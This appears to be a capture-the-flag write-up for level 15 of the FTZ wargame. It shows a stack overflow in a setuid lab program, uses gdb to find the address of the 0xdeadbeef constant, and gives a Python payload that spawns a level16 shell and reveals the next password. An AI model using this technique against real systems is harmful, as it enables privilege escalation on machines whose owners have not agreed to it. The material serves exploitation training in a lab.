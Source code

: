 # Level15

## This level's goal
- Memory routine pointer

***

```
[level15@ftz level15]$ ls -l
-rwsr-x---    1 level16  level15     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level15       185 Dec 10  2002 hint

[level15@ftz level15]$ cat hint

#include <stdio.h>

main()
{ 
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

This level seems like level14, thre is difference of check's pointer.

```
[level15@ftz tmp]$ cat distance.c
#include <stdio.h>
main()
{
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
   printf("Input is : %s\n &buf   : %p\n &check : %p\n &crap  : %p\n", buf, buf, &check, &crap);
}

[level15@ftz tmp]$ gcc distance.c -o distance
[level15@ftz tmp]$ ./distance
Input is :
 &buf   : 0xbffff3a0
 &check : 0xbffff3c8
 &crap  : 0xbffff3cc
```

buf(20bytes) + dummy(20bytes) + \*check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
[level15@ftz level15]$ gdb -q tmp/attackme
(gdb) disas main
0x080484b0 <main+32>:   cmpl   $0xdeadbeef,(%eax)
(gdb) break *0x080484b0
(gdb) run
(gdb) x/16x $esp
0xbfffe3b0:     0x41414141      0x4213000a      0xbfffe3d8      0x08048471
0xbfffe3c0:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe3d0:     0x08048308      0x42130a14      0xbfffe3e8      0x0804831e
0xbfffe3e0:     0x4200af84      0x42130a14      0xbfffe408      0x42015574

(gdb) x/x 0xbfffe3e8
0xbfffe3e8:     0xbfffe408

(gdb) x/x 0xbfffe408
0xbfffe408:     0x00000000

(gdb) info registers
eip            0x80484b0        0x80484b0

(gdb) x/4x 0x80484b0
0x80484b0 <main+32>:    0xbeef3881      0x2575dead      0x6808ec83      0x00000c18

(gdb) x/4x 0x80484b2
0x80484b2 <main+34>:    0xdeadbeef      0xec832575      0x0c186808      0x18680000
```

the deadbeef's memory is 0x80484b2, so the attack code is 40 bytes dummy strings + "\xb2\x84\x04\x08".

```
[level15@ftz level15]$ (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)

my-pass
Level16 Password is "about to cause mass".
```
